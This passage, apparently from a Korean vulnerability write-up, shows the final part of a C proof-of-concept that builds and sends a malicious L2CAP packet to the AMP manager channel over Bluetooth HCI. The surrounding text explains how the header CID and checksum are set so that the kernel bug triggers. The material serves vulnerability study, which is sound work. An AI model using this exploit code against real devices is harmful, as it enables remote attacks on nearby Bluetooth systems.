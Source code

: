 ```c++
  // ...

  uint16_t hci_handle = l2_conninfo.hci_handle;
  printf("[+] HCI handle: %x\n", hci_handle);

  printf("[*] Sending malicious L2CAP packet...\n");
  struct {
    l2cap_hdr hdr;
    uint16_t ctrl;
    uint16_t fcs;
  } packet = {0};
  packet.hdr.len = htobs(sizeof(packet) - L2CAP_HDR_SIZE);
  packet.hdr.cid = htobs(AMP_MGR_CID);
  packet.fcs = crc16(0, &packet, sizeof(packet) - 2);
  hci_send_acl_data(hci_socket, hci_handle, &packet, sizeof(packet));

  close(l2_sock);
  hci_close_dev(hci_socket);

  return 0;
}
```
취약한 로직으로 분기하기 위해 `hdr.cid`를 `0x3`으로 설정하는 것을 확인할 수 있다. 체크섬 통과를 위한 `fcs` 필드도 설정했기 때문에 중간에 `goto drop`으로 분기되지 않고 성공적으로 트리거할 수 있다.
